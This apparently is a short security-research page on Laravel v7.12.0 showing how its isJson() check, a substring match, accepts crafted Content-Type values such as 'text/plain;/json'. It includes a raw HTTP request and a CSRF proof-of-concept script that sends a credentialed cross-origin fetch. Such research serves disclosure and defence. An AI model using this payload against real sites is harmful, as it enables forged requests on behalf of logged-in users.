 ### Laravel v7.12.0

**Endpoint**
```php
public function test(Request $request) {
  if($request->isJson()) {
    $data = $request->json();
```

**Source code** ([/laravel/framework/src/Illuminate/Http/Concerns/InteractsWithContentTypes.php](https://github.com/laravel/framework/blob/ffead70b97f799c0054bd5975c85325bf857b247/src/Illuminate/Http/Concerns/InteractsWithContentTypes.php#L32-L34))
```php
public function isJson()
{
  return Str::contains($this->header('CONTENT_TYPE'), ['/json', '+json']);
```

**JSON Content-Type**
```
XXX;/json
XXX;+json
```

**HTTP Request**
```http
POST /json HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded;+json
Content-Length: 13

{"test":true}
```

**CSRF PoC**
```html
<script>
  fetch('http://localhost/json',{
    method:'POST',
    headers:{'Content-Type':'text/plain;/json'},
    body:'{"test":true}',
    credentials: 'include'
  });
</script>
```

**Multipart Content-Type**  
Same as [PHP](/ct-tricks/PHP.md)